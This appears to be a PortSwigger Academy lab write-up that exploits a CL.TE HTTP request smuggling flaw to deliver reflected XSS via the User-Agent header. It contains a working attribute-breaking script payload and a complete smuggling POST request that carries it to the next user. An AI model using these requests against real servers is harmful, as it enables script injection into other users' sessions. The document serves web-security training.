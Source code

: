 
# 11 - Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling

- https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo

- https://portswigger.net/web-security/request-smuggling/exploiting




![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/1.png)

---------------------------------------------

Generated link: https://0a1700ce0389844181edcf97005800c5.web-security-academy.net/

There is a functionality to post a comment:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/2.png)

It is a POST request. We see the User Agent in a parameter:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/3.png)

We intercept and change the User Agent when accessing “/post?postId=6”:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/4.png)

And the parameter “UserAgent” in the POST request to post the comment is now the XSS payload:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/5.png)

So the User Agent is stored and sent when creating the comment. If we set a random value and read the code of the page we can see it is stored as a hidden value in HTML:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/6.png)

We see the value "TESTING":



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/7.png)

We can try to exploit this with a payload like:

```
useragent"><script>alert(1)</script><a href="/test
```



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/8.png)

And the alert message appears:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/9.png)

The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/10.png)

From the lab description we have this:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/11.png)

In the blog post we can read:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/12.png)

And there are 3 types of HTTP smuggling:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/13.png)

The front-end server doesn't support chunked encoding so the result from the Burp extension is CL.TE:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/14.png)

How to exploit it:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/15.png)

We try to send the malicious GET request after a 0 in the POST request:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/16.png)

If we visit the website we get an invalid request response:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/17.png)

I had to add the Content-Length and at least one character:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/18.png)

```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```